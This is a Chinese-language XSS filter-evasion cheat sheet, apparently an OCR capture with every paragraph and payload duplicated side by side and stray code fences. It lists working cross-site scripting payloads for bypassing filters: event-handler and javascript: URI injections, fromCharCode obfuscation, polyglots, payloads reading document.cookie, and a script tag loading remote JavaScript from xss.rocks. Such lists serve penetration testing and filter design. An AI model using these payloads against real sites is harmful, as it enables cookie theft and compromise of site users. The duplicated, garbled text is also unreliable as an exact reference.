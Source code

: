 在大多数存在漏洞且不需要特定XSS攻击代码的地方插入下列代码会弹出包含“XSS”字样的对话框。使用URL编码器来对整个代码进行编码。小技巧：如果你时间很紧想要快速检查页面，通常只要插入“<任意文本>”标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：	在大多数存在漏洞且不需要特定XSS攻击代码的地方插入下列代码会弹出包含“XSS”字样的对话框。使用URL编码器来对整个代码进行编码。小技巧：如果你时间很紧想要快速检查页面，通常只要插入“<任意文本>”标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：


> ‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;	```json
>	‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;
> alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–	
>	alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–
> \></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>	
></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```




### 2.2.  XSS定位器（短）	### 2.2.  XSS定位器（短）


如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞	如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞


> ”;!–”<XSS>=&{()}	```json
”;!–”<XSS>=&{()}
```




### 2.3.  无过滤绕过	### 2.3.  无过滤绕过


这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：	这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：


> <SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>	```json
<SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>
```




### 2.4.  利用多语言进行过滤绕过	### 2.4.  利用多语言进行过滤绕过


> ‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>	```json
>	‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|><plaintext/onmouseover=prompt(1)>
> <script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>	
>	<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
> <script>alert(document.cookie)</script>”>	
>	<script>alert(document.cookie)</script>”>
> <img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>	
>	<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
> <img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>	
<img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>
```




### 2.5.  通过JavaScript命令实现的图片XSS	### 2.5.  通过JavaScript命令实现的图片XSS


图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：	图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：


> <IMG SRC=”javascript:alert(‘XSS’);”>	```json
<IMG SRC=”javascript:alert(‘XSS’);”>
```


### 2.6.  无分号无引号	### 2.6.  无分号无引号


> <IMG SRC=javascript:alert(‘XSS’)>	```json
<IMG SRC=javascript:alert(‘XSS’)>
```




### 2.7.  不区分大小写的XSS攻击向量	### 2.7.  不区分大小写的XSS攻击向量


> <IMG SRC=JaVaScRiPt:alert(‘XSS’)>	```json
<IMG SRC=JaVaScRiPt:alert(‘XSS’)>
```




### 2.8.  HTML实体	### 2.8.  HTML实体


必须有分号才可生效	必须有分号才可生效


> <IMG SRC=javascript:alert(&quot;XSS&quot;)>	```json
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```




### 2.9.  重音符混淆	### 2.9.  重音符混淆


如果你的JavaScript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包含JavaScript 代码。这通常会有很大帮助，因为大部分跨站脚本过滤器都没有过滤这个字符：	如果你的JavaScript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包含JavaScript 代码。这通常会有很大帮助，因为大部分跨站脚本过滤器都没有过滤这个字符：
> <IMG SRC=`javascript:alert(“RSnake says, ‘XSS’”)`>	```json
<IMG SRC=`javascript:alert(“RSnake says, ‘XSS’”)`>
```




### 2.10.    畸形的A标签	### 2.10.    畸形的A标签


跳过HREF标签找到XSS的重点。。。由DavidCross提交~已在Chrome上验证	跳过HREF标签找到XSS的重点。。。由DavidCross提交~已在Chrome上验证


> <a onmouseover=”alert(document.cookie)”>xxs link</a>	```json
<a onmouseover=”alert(document.cookie)”>xxs link</a>
```


此外Chrome经常帮你补全确实的引号。。。如果在这方面遇到问题就直接省略引号，Chrome会帮你补全在URL或脚本中缺少的引号。	此外Chrome经常帮你补全确实的引号。。。如果在这方面遇到问题就直接省略引号，Chrome会帮你补全在URL或脚本中缺少的引号。
```json
<a onmouseover=alert(document.cookie)>xxs link</a>
```


> <a onmouseover=alert(document.cookie)>xxs link</a>	


### 2.11.    畸形的IMG标签	### 2.11.    畸形的IMG标签


最初由Begeek发现（短小精湛适用于所有浏览器），这个XSS攻击向量使用了不严格的渲染引擎来构造含有IMG标签并被引号包含的XSS攻击向量。我猜测这种解析原来是为了兼容不规范的编码。这会让它更加难以正确的解析HTML标签：	最初由Begeek发现（短小精湛适用于所有浏览器），这个XSS攻击向量使用了不严格的渲染引擎来构造含有IMG标签并被引号包含的XSS攻击向量。我猜测这种解析原来是为了兼容不规范的编码。这会让它更加难以正确的解析HTML标签：


> <IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>	```json
<IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>
```
### 2.12.    fromCharCode函数	### 2.12.    fromCharCode函数
如果不允许任何形式的引号，你可以通过执行JavaScript里的fromCharCode函数来创建任何你需要的XSS攻击向量：	如果不允许任何形式的引号，你可以通过执行JavaScript里的fromCharCode函数来创建任何你需要的XSS攻击向量：
> <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>	```json
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
### 2.13.    使用默认SRC属性绕过SRC域名过滤器	### 2.13.    使用默认SRC属性绕过SRC域名过滤器
这种方法可以绕过大多数SRC域名过滤器。将JavaScript代码插入事件方法同样适用于注入使用elements的任何HTML标签，例如Form,Iframe, Input, Embed等等。它同样允许将事件替换为任何标签中可用的事件类型，例如onblur,onclick。下面会给出许多不同的可注入事件列表。由David Cross提交，Abdullah Hussam(@Abdulahhusam)编辑。	这种方法可以绕过大多数SRC域名过滤器。将JavaScript代码插入事件方法同样适用于注入使用elements的任何HTML标签，例如Form,Iframe, Input, Embed等等。它同样允许将事件替换为任何标签中可用的事件类型，例如onblur,onclick。下面会给出许多不同的可注入事件列表。由David Cross提交，Abdullah Hussam(@Abdulahhusam)编辑。
> <IMG SRC=# onmouseover=”alert(‘xxs’)”>	```json
<IMG SRC=# onmouseover=”alert(‘xxs’)”>
```
### 2.14.    使用默认为空的SRC属性	### 2.14.    使用默认为空的SRC属性
> <IMG SRC= onmouseover=”alert(‘xxs’)”>	```json
<IMG SRC= onmouseover=”alert(‘xxs’)”>
```
### 2.15.    使用不含SRC属性	### 2.15.    使用不含SRC属性
> <IMG onmouseover=”alert(‘xxs’)”>	```json
<IMG onmouseover=”alert(‘xxs’)”>
```
### 2.16.    通过error事件触发alert	### 2.16.    通过error事件触发alert
> <IMG SRC=/ onerror=”alert(String.fromCharCode(88,83,83))”></img>	```json
<IMG SRC=/ onerror=”alert(String.fromCharCode(88,83,83))”></img>
